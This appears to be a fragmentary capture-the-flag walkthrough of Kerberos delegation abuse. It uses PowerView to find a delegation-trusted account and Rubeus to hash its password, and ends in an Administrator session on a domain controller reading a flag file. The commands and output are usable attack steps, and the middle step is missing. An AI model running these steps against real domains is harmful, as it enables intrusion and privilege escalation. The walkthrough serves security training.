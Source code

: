 ```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
```

```powershell
. .\PowerView-main.ps1
```

```powershell
Get-NetUser -TrustedToAuth
```

![GivenDelegation](img/GivenDelegation.png)

> `user : webservice`

```powershell
.\Rubeus.exe hash /password:Slavi123
```

```txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Calculate Password Hash(es)

[*] Input password             : Slavi123
[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>
[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents> dir
[dc1]: PS C:\Users\Administrator\Documents> cat flag.txt